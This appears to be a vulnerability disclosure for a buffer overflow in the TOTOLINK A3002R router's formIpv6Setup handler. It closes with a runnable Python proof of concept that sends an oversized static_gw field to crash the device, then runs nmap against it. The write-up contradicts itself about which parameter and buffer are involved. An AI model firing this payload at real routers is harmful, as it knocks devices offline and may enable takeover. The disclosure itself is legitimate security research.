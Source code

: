# TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `static_gw` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`

![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-16_22-19-45.png)
By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v36` variable is passed to `v50` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `static_ipv6` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "static_ipv6" data, and `strcpy` copies the string pointed to by `v36` to `v50` without verifying whether `v49` has enough space to store the copied string. If the string pointed to by `v36` exceeds the size of the `v50` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-16_22-22-03.png)
An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `static_gw` string, potentially causing the program to crash.


# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "1981",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/parent.htm",
	"Upgrade-Insecure-Requests": "1",
	"Priority": "u=4",
}

repeated = "A"*5000
data = "wan_enable=1&OriginType=1&enable_dhcpv6RapidCommit=1&static_ipv6=111&static_gw={}".format (repeated)

response = requests.post (url, data=data, headers=headers,verify=False)
#print(response.text)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```
